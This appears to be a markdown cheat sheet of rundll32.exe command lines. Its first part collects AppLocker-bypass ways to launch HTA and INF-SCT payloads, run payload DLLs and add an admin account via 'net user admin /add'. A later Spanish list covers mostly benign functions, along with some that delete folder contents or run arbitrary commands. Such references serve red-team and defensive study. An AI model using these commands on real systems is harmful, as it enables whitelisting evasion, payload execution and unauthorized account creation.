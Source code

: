 # Rundll32 commands for Windows
https://www.jesusninoc.com/2017/04/12/rundll32-commands-for-windows/

# Looking for other ways to launch your favorite HTA? Try these:
https://twitter.com/bohops/status/974043815655956481

```MS-DOS
rundll32.exe url.dll,OpenURL "local\path\to\harmless.hta"
rundll32.exe url.dll,OpenURLA "local\path\to\harmless.hta"
```

- Seems to bypass AppLocker Default Rules
- Does not handle actual Web URLs seamlessly

# SCT Execution Remote Via INFScript Useing ( SysSetup )
https://twitter.com/harr0ey/status/975350238184697857

InSide INFScript By @subTee Regsvr32 in INFScript

```MS-DOS
rundll32 syssetup,SetupInfObjectInstallAction DefaultInstall 128 C:\INFPS.inf
```

Raw INFScript Code ?
https://gist.github.com/homjxi0e/87b29da0d4f504cb675bb1140a931415

Video INFScript 
https://www.youtube.com/watch?v=R7rT63905i0

Leveraging INF-SCT Fetch & Execute Techniques For Bypass, Evasion, & Persistence
https://bohops.com/2018/02/26/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence/

# rundll32
```MS-DOS
rundll32 zipfldr.dll, RouteTheCall calc.exe
rundll32 advpack.dll, RegisterOCX calc.exe
rundll32 advpack.dll, RegisterOCX "cmd.exe /c net user admin /add && rem .exe"
```

You looking out for that "RegisterOCX" function in IEAdvpack.dll?  

```MS-DOS
rundll32.exe C:\windows\system32\IEAdvpack.dll,RegisterOCX C:\path\to\payload.dll
rundll32.exe C:\windows\system32\IEAdvpack.dll,RegisterOCX C:\path\to\payload.exe
```

Llame al Asistente de conexión de la unidad de red.
```MS-DOS
rundll32.exe shell32.dll, SHHelpShortcuts_RunDLL Connect
```
Abra un cuadro de diálogo que muestra la versión del sistema operativo Windows. También puede mostrar este cuadro de diálogo ejecutando el comando winver.exe.
```MS-DOS
rundll32.exe shell32.dll, ShellAboutA
```
Muestra el árbol del sistema de archivos del disco duro de la computadora.
```MS-DOS
rundll32.exe IEAKENG.dll, BrowseForFileA
```
Llame al cuadro de diálogo AYUDA Y SOPORTE en la página especificada. Por ejemplo, puede usar la llamada mshelp como la página html: // Windows /? Id = 33307acf-0698-41ba-b014-ea0a2eb8d0a8.
```MS-DOS
rundll32.exe ndfapi.dll, NdfRunDllHelpTopic "html-page"
```
Llame al diálogo ABRIR COMO ... para abrir este archivo.
```MS-DOS
rundll32.exe shell32.dll, OpenAs_RunDLL "ruta y nombre de archivo"
```
Muestra el cuadro de diálogo de la utilidad de red del cliente de SQL Server.
```MS-DOS
rundll32.exe shell32.dll, Control_RunDLL Cliconfg.dll
```
Muestra el cuadro de diálogo Eliminar dispositivo.
```MS-DOS
rundll32.exe shell32.dll, Control_RunDLL Hotplug.dll
```
Reescribe el contenido de este archivo.
```MS-DOS
rundll32.exe admparse.dll, CheckDuplicateKeysA "ruta y nombre de archivo"
```
Crea una carpeta. Si esta carpeta ya existe, se borrarán todos sus contenidos.
```MS-DOS
rundll32.exe IEAKENG.dll, BToolbar_SaveA "ruta a la carpeta"
```
Inicia el navegador de Internet Explorer y descarga la página http://g.msn.com/WMHFUSEN/101724
```MS-DOS
rundll32.exe appwiz.cpl, GetProgramsOnline
```
Ejecuta el comando.
```MS-DOS
rundll32.exe shell32.dll, ShellExec_RunDLL "comando"
```
Abra la carpeta. Si no especifica una carpeta, se abrirá la carpeta de su perfil
```MS-DOS
rundll32.exe url.dll, FileProtocolHandler "directorio"
```
Elimina todos los archivos de la carpeta especificada que tienen el atributo FILEATTRIBUTETAGINFORMATION
```MS-DOS
rundll32.exe WININET.dll, RunOnceUrlCache "ruta a la carpeta"
```
Ejecute el archivo xml
```MS-DOS
rundll32.exe xwizards.dll, ProcessXMLFile "ruta y nombre del archivo xml"
```
Presiona el botón derecho del mouse
```MS-DOS
rundll32.exe user32.dll, mouse_event
```
Coloque el cursor en la esquina inferior derecha de la pantalla
```MS-DOS
rundll32.exe user32.dll, SetCursorPos
```
Detener el servicio de actualización en segundo plano dfsvc.exe
```MS-DOS
rundll32.exe dfshim.dll, KillService
```
Ejecuta los comandos descritos en la rama de registro HKLM \ SOFTWARE \ Microsoft \ Windows \ CurrentVersion \ RunOnceEx (o en la rama de la partición raíz HKCU)
```MS-DOS
rundll32.exe IERNONCE.dll, RunOnceExProcess
```

